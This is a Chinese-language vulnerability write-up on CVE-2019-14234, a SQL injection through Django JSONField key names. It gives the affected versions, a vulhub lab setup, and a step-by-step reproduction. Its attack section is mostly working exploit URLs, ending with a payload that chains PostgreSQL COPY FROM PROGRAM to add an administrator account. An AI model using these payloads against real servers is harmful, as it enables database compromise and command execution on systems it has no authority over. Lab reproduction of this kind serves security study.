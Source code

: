 （CVE-2019-14234）Django JSONField sql注入漏洞
==============================================

一、漏洞简介
------------

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key\_name是可控的字符串，最终生成的语句是WHERE
(field-\>\'\[key\_name\]\') = \'value\'，因此可以进行SQL注入。

二、漏洞影响
------------

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

三、复现过程
------------

### 环境搭建

    git clone https://github.com/vulhub/vulhub.git
    cd vulhub/django/CVE-2019-14234/
    docker-compose up -d

### 漏洞利用

#### 1、登录后台

http://ip:8000/admin/vuln/collection/

#### 2、构造URL进行查询

http://ip:8000/admin/vuln/collection/?detail\_\_a%27b=123

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-14234)DjangoJSONFieldsql注入漏洞/media/rId28.png)

可以看到已经注入成功，并且可以看到构造的SQL语句

为进一步验证注入语句，我们继续构造

    http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1--

后台生成的sql语句的关键部分是

    WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s

由于or 1=1永为真，因此应该返回所有结果，页面返回结果符合预期，如下图

image

下一步结合CVE-2019-9193我们尝试进行命令注入，构造url如下

    http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20

页面结果虽然报错，但是报错原因是no results to
fetch，说明我们的语句已经执行

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-14234)DjangoJSONFieldsql注入漏洞/media/rId29.png)

最终payload

    http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20
